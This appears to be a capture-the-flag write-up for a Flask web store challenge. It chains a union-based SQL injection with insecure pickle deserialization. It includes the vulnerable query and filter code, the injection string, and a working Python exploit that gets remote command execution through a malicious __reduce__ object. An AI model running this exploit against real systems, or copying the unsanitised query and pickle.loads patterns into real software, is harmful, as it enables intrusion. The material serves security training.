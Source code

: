 # # Info
Difficulty: Easy
# Desc
>The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!

# Writeup
This is a Insecure Deserialization challenge, the website is built with Flask and processes objects with Pickle.
This machine can be divided into two parts, the first part is SQLi, and the second part is the deserialization.

The SQL query is constructed with format string without any sanitization.
```python
    def select_by_id(product_id):
        return query_db(f"SELECT data FROM products WHERE id='{product_id}', one=True)
```

I tried using stacked queries to insert a malicious base64 string into the database, but the server doesn't support stacked query.
Therefore, I used union based SQLi to select my malicious base64 string.
```
notexist' union select '<b64here>'; -- -
```
Then, the server has defined a custom template filter that deserializes the base64 string.
```python
@app.template_filter('pickle')
def pickle_loads(s):
	return pickle.loads(base64.b64decode(s))
```

```html
<div class="row gx-4 gx-lg-5 align-items-center">
    {% set item = product | pickle %}
        <div class="col-md-6"><img class="card-img-top mb-5 mb-md-0" src="{{ item.image }}" alt="..." /></div>
        <div class="col-md-6">
            <h1 class="display-5 fw-bolder">{{ item.name }}</h1>
            <div class="fs-5 mb-5">
                <span>£{{ item.price }}</span>
             </div>
            <p class="lead">{{ item.description }}</p>
        </div>
</div>
```

Therefore, Pickle will unpickle the malicious object and let us gain RCE on the machine.
```python
import requests
import urllib.parse
import base64
import pickle

url = "http://x.x.x.x:xxxxx/view/notexist"
command = "cp /app/flag.txt /app/application/static/js/flag.txt"

# https://github.com/CalfCrusher/Python-Pickle-RCE-Exploit/blob/main/Pickle-PoC.py
class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

b64obj = base64.b64encode(pickle.dumps(PickleRCE())).decode('utf-8')
payload = urllib.parse.quote(f"' union select '{b64obj}'-- -")

x = requests.get(url=url+payload)
print(x.status_code)
```